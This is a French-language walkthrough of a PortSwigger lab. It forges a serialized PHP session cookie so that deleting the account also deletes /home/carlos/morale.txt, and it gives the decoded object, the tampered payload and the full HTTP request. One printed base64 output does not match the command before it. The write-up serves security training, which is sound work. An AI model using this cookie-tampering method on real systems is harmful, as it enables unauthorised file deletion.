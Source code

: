 # Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization

## Solution

Quand on upload une photo de profil sur ce lab, on tombe sur cette erreur qui révèle le full path :

```
PHP Fatal error:  Uncaught Exception: Error in file upload: 1 in /home/carlos/avatar_upload.php:6
Stack trace:
#0 {main}
  thrown in /home/carlos/avatar_upload.php on line 6
```

L'objectif du challenge est de supprimer le fichier `morale.txt` qui se trouve dans le répértoire de carlos.

Quand on est authentifié, on obtient un cookie de session :

```
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5OHhheTdwNjd4N3lycHZyd2R2a2RiNzVqMXI1dGkzbCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
```

La chaine est probablement l'objet PHP de l'utilisateur connecté, on peut la décoder :

```bash
$ echo "Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5OHhheTdwNjd4N3lycHZyd2R2a2RiNzVqMXI1dGkzbCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=" | base64 -d
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"y8xay7p67x7yrpvrwdvkdb75j1r5ti3l";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

Si on modifie le nom du fichier `avatar_link` pour qu'il pointe vers le fichier `morale.txt` et qu'on supprime notre profile, le fichier devrait aussi être supprimé puisque l'application supprime également les fichiers uploadés.

```bash
$ echo 'O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"y8xay7p67x7yrpvrwdvkdb75j1r5ti3l";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}' | base64
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5OHhheTdwNjd4N3lycHZyd2R2a2RiNzVqMXI1dGkzbCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6InVzZXJzL2Nhcmxvcy9tb3JhbGUudHh0Ijt9Cg==
```

Maintenant si on supprime notre profile en injectant ce cookie, alors le fichier `morale.txt` sera supprimé :

```http
POST /my-account/delete HTTP/2
Host: 0a9100d70350881d802085f5004600cb.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5OHhheTdwNjd4N3lycHZyd2R2a2RiNzVqMXI1dGkzbCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
Content-Length: 0
Cache-Control: max-age=0
Origin: https://0a9100d70350881d802085f5004600cb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a9100d70350881d802085f5004600cb.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
